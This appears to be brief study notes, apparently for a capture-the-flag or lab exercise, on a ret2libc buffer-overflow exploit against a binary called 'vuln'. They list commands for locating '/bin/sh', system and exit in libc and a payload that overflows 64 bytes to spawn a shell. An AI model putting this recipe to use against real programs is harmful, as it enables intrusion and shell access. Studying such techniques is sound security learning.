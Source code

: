 # Find offset of /bin/sh

```
 strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"

```
# Find address of /bin/sh

```

ldd vuln to get entry adress of libc
bishAddress = libc + offset

```
# Find address of system and exit

```
gdb vuln
b main
r
p system
p exit

```

# Payload

```
paylaod = 64 * 'A' + address_of_system + address_of_exit + address_of_binsh

```
